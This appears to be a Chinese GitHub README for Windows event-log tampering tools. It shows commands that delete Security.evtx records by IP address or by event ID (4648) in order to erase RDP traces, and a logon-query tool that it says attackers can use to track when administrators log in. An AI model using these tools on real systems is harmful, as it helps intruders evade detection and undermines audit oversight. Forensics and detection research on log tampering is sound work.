 # Clear_EventLog_Evtx

声明: 工具仅供安全研究或授权渗透，非法用途后果自负。

目的: 清除 RDP 记录

### clearevtx-ip.exe  

- 清理IP(172.16.7.1)所有记录

```
C:\Users\Administrator\Desktop>clearevtx-ip.exe Security.evtx 172.16.7.1
[+]PID:2472
Windows Event Log 服务正在启动 .
Windows Event Log 服务已经启动成功。

[+]All Done
```


### clearevtx-id.exe
- 清理事件ID(4648)所有记录
```
C:\Users\Administrator\Desktop>clearevtx-id.exe Security.evtx 4648
[+]PID:1340
Windows Event Log 服务正在启动 .
Windows Event Log 服务已经启动成功。

[+]All Done
```


### logquery.exe

- 查询远程和本地登录的ip和时间
- 攻击者可以用于侦查管理员上线时间以及频繁登录的ip做相关信息收集, 以及避免不必要的尴尬😓
- 运维人员自然是用来找攻击者痕迹

```
C:\Users\Administrator\Desktop>logquery.exe
-------------------------------------
LogonTime:      2020/6/12 16:55:19
IpAddress:      10.25.200.44
LogonName:      Administrator
LogonDomain:    WORKGROUP
LogonType:      Logon (RDP)
-------------------------------------
-------------------------------------
LogonTime:      2020/6/11 17:26:24
IpAddress:      10.25.200.73
LogonName:      Administrator
LogonDomain:    WORKGROUP
LogonType:      Logon (RDP)
-------------------------------------
```


PS : 不定期更新

Refer:

[https://github.com/3gstudent/Eventlogedit-evtx--Evolution](https://github.com/3gstudent/Eventlogedit-evtx--Evolution)

[https://github.com/QAX-A-Team/EventLogMaster/tree/master/powershell](https://github.com/QAX-A-Team/EventLogMaster/tree/master/powershell)

